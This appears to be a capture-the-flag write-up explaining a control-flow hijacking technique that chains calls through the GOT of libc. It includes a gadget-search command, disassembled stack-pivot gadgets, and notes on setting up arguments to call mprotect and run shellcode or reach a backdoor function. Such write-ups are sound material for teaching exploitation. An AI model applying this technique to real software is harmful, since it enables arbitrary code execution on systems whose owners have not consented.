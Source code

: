 The technique is roughly similar to GOP/JOP except it uses calls into the GOT as the method of directing control flow. 

```
> cargo run -- ~/chrononaut-shmoo-24/time_jump/jump_planner_release/libc.so.6 | wc -l
34704
```

For example, this is the first gadget of my chain which I used to shift the stack upwards to the controlled area: 

```
000d059b  4881c4f8000000     add     rsp, 0xf8
000d05a2  5b                 pop     rbx {__saved_rbx}
000d05a3  5d                 pop     rbp {__saved_rbp}
000d05a4  415c               pop     r12 {__saved_r12}
000d05a6  415d               pop     r13 {__saved_r13}
000d05a8  415e               pop     r14 {__saved_r14}
000d05aa  415f               pop     r15 {__saved_r15}
000d05ac  e90f80f5ff         jmp     jumps_wcscmp
```


The address of the next gadget would be placed in the GOT entry for wcscmp, which would end in a call to another GOT entry and so on.  

This technique has a rather significant fundamental limitation in that each GOT entry can only be used once or you'll create a cycle -- but in practice I found that wasn't a huge issue and it was relatively straightforward to control the first three arguments (at which point you could instead call mprotect and run shellcode).  The larger limitation is that you can't clobber a GOT entry if your write primitive calls it or you'll trigger your chain early and likely crash. I did this manually as I was writing my chain but it should be easy enough to automate in GDB (drop a tracepoint on each plt stub and check hitcounts?  The GDB plugin API should be sufficient... I'll probably write something up when I have time) and exclude those gadgets. 

## Building the chain

As mentioned earlier, my first gadget was intended to shift the stack to the controlled area.  Although some registers were set, the data on stack was uncontrolled.  Coincidentally, this gadget left rsp pointing directly to the start of the controlled stack data.  

```
000d059b  4881c4f8000000     add     rsp, 0xf8
000d05a2  5b                 pop     rbx {__saved_rbx}
000d05a3  5d                 pop     rbp {__saved_rbp}
000d05a4  415c               pop     r12 {__saved_r12}
000d05a6  415d               pop     r13 {__saved_r13}
000d05a8  415e               pop     r14 {__saved_r14}
000d05aa  415f               pop     r15 {__saved_r15}
000d05ac  e90f80f5ff         jmp     jumps_wcscmp
```

My second gadget was intended to populate rdx with 0x6942069420 -- the magic value for the second argument to the backdoor function. My stack control used sprintf which limited the bytes which could be written to non-whitespace bytes. I used this gadget which read data from the stack and then added 1 to rdx. 
